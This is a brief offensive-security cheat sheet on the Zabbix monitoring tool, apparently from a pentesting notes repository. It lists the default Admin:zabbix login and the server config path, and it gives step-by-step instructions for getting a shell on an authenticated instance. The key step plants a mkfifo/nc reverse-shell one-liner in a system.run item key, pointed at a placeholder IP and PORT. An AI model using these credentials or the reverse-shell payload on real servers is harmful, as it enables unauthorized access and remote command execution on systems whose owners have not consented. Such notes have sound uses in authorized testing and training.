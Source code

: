# zabbix

Zabbix is an open-source monitoring software tool for diverse IT components, including networks, servers, virtual
machines and cloud services. Zabbix provides monitoring metrics, among others network utilization, CPU load and disk
space consumption.

## Default Credentials

```bash
Admin:zabbix
```

## Interesting Paths

```bash
# config file
/etc/zabbix/zabbix_server.conf
```

## Shell (authenticated)

1. Configuration > Hosts > Items > Create New
2. set key: `system.run[rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc IP PORT >/tmp/f &,nowait]`
3. Click Test > Get Value & Test

## References

* [blog.zabbix.com/zabbix-remote-commands/](https://blog.zabbix.com/zabbix-remote-commands/7500/)